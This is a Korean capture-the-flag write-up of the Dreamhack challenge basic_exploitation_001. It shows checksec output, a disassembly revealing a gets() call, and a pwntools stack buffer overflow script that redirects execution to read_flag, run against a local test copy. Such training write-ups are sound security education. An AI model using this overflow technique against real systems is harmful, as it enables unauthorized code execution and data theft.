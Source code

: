 ```yaml
---
title: basic_exploitation_001
author: hwang
date: 2024-05-12 23:30:00 +0900
categories: [Dreamhack, System Hacking]
tags: [basic_exploitation_001]     # TAG names should always be lowercase
---
```


## Description
이 문제는 서버에서 작동하고 있는 서비스(basic_exploitation_001)의 바이너리와 소스 코드가 주어집니다.
프로그램의 취약점을 찾고 익스플로잇해 "flag" 파일을 읽으세요.
"flag" 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
플래그의 형식은 DH{...} 입니다.

## Environment
```text
Ubuntu 16.04
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

## Solution
먼저, basic_exploitation_001에 적용된 보안 기법을 확인하였다.
```bash
$ checksec basic_exploitation_001
```
결과는 위의 Environment와 같다. x86 아키텍쳐에서 작동하고, NX가 작동한다. 저번처럼 버퍼에서 쉘코드를 실행시키는 것은 불가능하다.

이후, pwngdb로 디버깅하였다.
```bash
$ sudo gdb -q basic_exploitation_001

pwndbg> disassemble main
```

결과는 다음과 같다.
```text
Dump of assembler code for function main:
   0x080485cc <+0>:	push   ebp
   0x080485cd <+1>:	mov    ebp,esp
   0x080485cf <+3>:	add    esp,0xffffff80
   0x080485d2 <+6>:	call   0x8048572 <initialize>
   0x080485d7 <+11>:	lea    eax,[ebp-0x80]
   0x080485da <+14>:	push   eax
   0x080485db <+15>:	call   0x80483d0 <gets@plt> //"gets(buf)"
   0x080485e0 <+20>:	add    esp,0x4
   0x080485e3 <+23>:	mov    eax,0x0
   0x080485e8 <+28>:	leave  
   0x080485e9 <+29>:	ret    
End of assembler dump.
```

첨부된 c언어 코드를 살펴보면, read_flag()함수가 코드 내에 존재함을 알 수 있다. elf파일 내에 심볼들의 주소 중 read_flag()의 주소를 읽어서 사용할 수 있다. 스택 프레임 구조는 저번과 같다.

pwntools을 이용하여 exploit 코드를 작성하였다.
```python
from pwn import *

p = process('./basic_exploitation_001')

elf = ELF('./basic_exploitation_001')
read_flag = elf.symbols['read_flag']

payload = b"A" * 128
payload += b"B" * 4
payload += p32(read_flag)

p.sendline(payload)
data = p.recvuntil(b'}')
print(data)
```
실행 결과는 다음과 같다.
```text
[+] Starting local process './basic_exploitation_001': pid 5529
[*] '/home/hwangshincheol/test/basicexploitation/basic_exploitation_001'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
b'DH{Hellothisisatestflag}'
[*] Stopped process './basic_exploitation_001' (pid 5529)
```
> `Flag` 파일을 임의로 생성하였다.
{: .prompt-info }